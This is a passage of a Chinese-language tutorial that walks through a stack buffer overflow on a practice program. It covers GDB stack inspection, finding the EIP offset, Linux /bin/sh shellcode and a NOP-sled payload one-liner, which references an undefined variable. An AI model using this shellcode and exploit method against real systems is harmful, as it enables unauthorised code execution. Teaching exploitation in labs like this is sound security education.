 你应该会看到程序因**段错误**而崩溃。溢出可能已经覆盖了部分堆栈。  
### 3.2 使用 GDB 检查堆栈  
  
现在，让我们使用 GDB 检查内存，看看底层发生了什么：  
```
gdb ./vuln_program

```  
  
在 gets() 函数之前设置一个断点，以便在溢出之前检查内存：  
```
(gdb) break gets(gdb) run
```  
  
当程序在断点处暂停时，使用以下命令检查堆栈：  
```
(gdb) info registers
(gdb) x/20x $esp  # View the top of the stack

```  
  
现在，再次输入相同的长字符串（64个A），观察内存的变化。你会注意到你输入的数据开始覆盖堆栈，包括**保存的返回地址**。  
## 第 4 步：控制 EIP（指令指针）  
  
基于堆栈的缓冲区溢出的目标是覆盖**EIP（指令指针）**，它控制程序接下来要执行的内容。通过提供超过缓冲区容量的输入，你可以覆盖 EIP 并将执行重定向到你的有效载荷（shellcode）。  
### 4.1 找到 EIP 的偏移量  
  
要控制 EIP，你需要知道在到达堆栈上的保存返回地址之前需要输入多少字节。你可以使用**模式生成**来找到确切的偏移量：  
```
python3 -c 'print("A" * 80)' | ./vuln_program

```  
  
在 GDB 中检查崩溃发生的位置：  
```
(gdb) info registers  # Check the value of EIP

```  
  
你应该会看到 EIP 被部分输入覆盖。调整A的数量，直到找到覆盖 EIP 的确切偏移量。  
## 第 5 步：编写 Shellcode  
  
一旦你控制了 EIP，下一步就是将执行重定向到你的**shellcode**，它将生成一个 shell。以下是一些简单的 Linux shellcode，它会生成/bin/sh：  
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

```  
### 5.1 创建有效载荷  
  
你可以将这个 shellcode 与利用程序结合使用**NOP 滑板**，以增加落在 shellcode 上的机会。首先，使用 GDB 找到内存中缓冲区的位置，然后在 Python 中创建有效载荷：  
```
python3 -c 'print("\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (64 - 20 - len(shellcode)) + "BBBB" + "\x00\x80\x04\x08")' | ./vuln_program

```  
- NOP 滑板（\x90 * 20）有助于确保 EIP 会落在 shellcode 的某个位置。  
  